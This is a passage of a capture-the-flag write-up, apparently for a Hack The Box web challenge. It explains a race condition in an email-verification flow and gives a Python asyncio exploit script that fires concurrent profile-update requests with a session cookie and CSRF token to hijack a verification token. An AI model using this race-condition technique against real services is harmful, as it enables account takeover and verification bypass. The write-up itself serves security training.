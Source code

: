     >     data = generateTemplate(token['confirmToken'], token['unconfirmedEmail'])
    >     
    >     msg = Message(
    >         'Account Verification',
    >         recipients=[to],
    >         body=data,
    >         sender="no-reply@apexsurvive.htb",
    >     )
    >     mail.send(msg)
   > ```
   
   `getToken` function:
   > /challenge/application/database.py
   > ```py
   > def getToken(id):
   >      return query('SELECT unconfirmedEmail, confirmToken FROM users WHERE id=%s', (id, ), one=True)
   > ```
   When `getToken` function is called this query return `test@apexsurvive.htb` verification token due the race, but the email still sent the verification email to `test@email.htb` mailbox.

   Exploit code:
   > exploit.py
   > ```py
   > import aiohttp
    > import asyncio
    > 
    > async def post_request(session, url, cookie, data):
    >     headers = {
    >         'Content-Type': 'application/x-www-form-urlencoded',
    >         'Cookie': cookie
    >     }
    >     async with session.post(url, headers=headers, data=data) as response:
    >         return await response.text()
    > 
    > async def main():
    >     url = 'https://localhost:1337/challenge/api/profile'
    >     cookie = 'session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiZXhwIjoxNzEwODkxMjEzLCJhbnRpQ1NSRlRva2VuIjoiYWNkZmRmNjAtNDIxMi00ZTNhLWJhYjYtNWFmNjMwZmFjNGUzIn0.yQfFGv0obPz25-RCNUTVsM3PpKUgqjgidhfWw1lYQjA'
    >     # url = "https://83.136.250.12:47676/challenge/api/profile"
    >     # cookie = "session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiZXhwIjoxNzEwMzA1MTY4LCJhbnRpQ1NSRlRva2VuIjoiNDZmM2I1ZTUtZWQxMy00ZTZiLTgyOWEtZWJlOWI0NzI4ZmE2In0.2PrzGU6TYBq86pva4rOVPDNIqMBmB35YHg9m3euOQCo"
    > 
    >     async with aiohttp.ClientSession(connector=aiohttp.TCPConnector(verify_ssl=False)) as session:
    >         tasks = []
    >         for char in ["apexsurvive.htb", "apexsurvive.htb", "apexsurvive.htb", "apexsurvive.htb", "apexsurvive.htb", "apexsurvive.htb", "apexsurvive.htb", "apexsurvive.htb", "apexsurvive.htb", "apexsurvive.htb", "apexsurvive.htb", "apexsurvive.htb", "email.htb", "apexsurvive.htb"]:  # Number of concurrent requests
    >             data = {
    >                 'email': 'test@' + char,
    >                 'username': 'a',
    >                 'fullName': 'a',
    >                 'antiCSRFToken': 'acdfdf60-4212-4e3a-bab6-5af630fac4e3'
    >             }
    >                     
    >             task = asyncio.ensure_future(post_request(session, url, cookie, data))
    >             tasks.append(task)
    >         
    >         responses = await asyncio.gather(*tasks)
    >         print(responses)